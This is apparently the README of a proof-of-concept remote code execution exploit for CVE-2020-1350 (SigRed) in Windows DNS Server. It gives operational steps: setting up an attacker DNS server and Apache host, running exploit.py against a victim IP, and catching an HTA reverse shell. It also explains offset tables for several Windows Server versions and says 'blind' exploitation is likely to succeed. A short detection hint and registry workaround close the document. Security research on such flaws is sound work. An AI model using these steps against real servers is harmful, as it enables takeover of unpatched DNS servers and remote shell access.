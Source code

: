 # PoC Remote Code Exection Exploit for CVE-2020-1350, SigRed.

by: [chompie](https://twitter.com/chompie1337)

***For research purposes only. Use at your own risk.***

## Exploit Writeup

Details on the methods used are here:

https://www.graplsecurity.com/post/anatomy-of-an-exploit-rce-with-cve-2020-1350-sigred

## Environment Setup

### Lab Environment: Setting a Forwarder

For demo/testing purposes, just set up a conditional forwarder on the victim machine to forward "evil domain" requests to your attacker machine.

Tools -> DNS
![Alt text](images/forward.png?raw=true "Set up a forwarder")
![Alt text](images/ch0mpie.png?raw=true "Forwarding for ch0mpie.com")

This is so you can listen on port 53 and still have a DNS server configured.

### Registering a custom Nameserver

If you are NOT setting a forwarder, i.e. actually registering your attacker machine as a custom name server for your domain and running this over real internet...
***Note: I really don't recommend this and take no responsibility if you do something stupid.***

***This exploit is configured assuming your nameserver is registered as ns1.[yourevildomain]*** 

You need to do the following tweaks to make this work over real internet:

Comment out the line: `os.system('systemctl stop systemd-resolved')` in `evildns.py` 

Follow these instructions to fix your DNS configuration: https://www.linuxuprising.com/2020/07/ubuntu-how-to-free-up-port-53-used-by.html

This is so you can listen on port 53 and still have a DNS server configured.


## Configuring Attacker Machine

On the Linux attacker machine: (I used a base Ubuntu 20.04.1 VM)

`sudo python3 configure.py -ip IP_ATTACKER -p PORT_REVERSE_SHELL -hp PORT_APACHE_SERVER (default 80)`

This configures the Apache server that the victim will download the reverse HTA shell.


## Running the Exploit

`sudo python3 evildns.py` 

Needs sudo to listen on UDP and TCP ports 53

Then run:

`python3 exploit.py -ip WINDNS_VICTIM_IP -d EVIL_DOMAIN`

Set the listener for the reverse shell:

`python3 reverse_shell/server.py -p PORT_REVERSE_SHELL`

HTA shell is modified version of:
https://github.com/freshness79/HTA-Shell

Note that the shell doesn't notify you when there is an incoming connection so you will have to try to type a command. 

## Supported Versions

This has been tested working on Windows Server 2019, 2016, 2012R2, and 2012 (x64 versions). Offsets for some versions of `dns.exe` and `msvcrt.dll` are located in `offsets.py`. This list is incomplete. If the version you are testing fails to find offsets, you can add the mapping there. 

`dns.exe` offset mapping: (last 12bits of the offset for `dns!RR_Free`, `` dns!`string` ``) : (offset of `dns!RR_Free`, `dns!NsecDnsRecordConvert`, `dns!_imp_exit`)
`msvcrt.dll` offset mapping: (last 12 bits of offset for `msvcrt!exit`): (offset of `msvcrt!exit`, offset of `msvcrt!system`)

***Note: In the case of an offset collision, you will have to make a selection of which set of offsets to choose. The DNS service will restart after about 5 minutes up to two times after a crash. You must restart `evildns.py` after each try. The exploit is stable, so the chance of successful "blind" exploitation is high.***

## Detecting Exploitation and Workaround Fix

This PoC includes a Grapl rule to detect exploitation of SigRed. To implement a rule for your preferred SIEM, look for invalid child processes of dns.exe.

If patching is not possible, a workaround fix is available:
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters" /v "TcpReceivePacketSize" /t REG_DWORD /d 0xFF00 /f
net stop DNS && net start DNS
```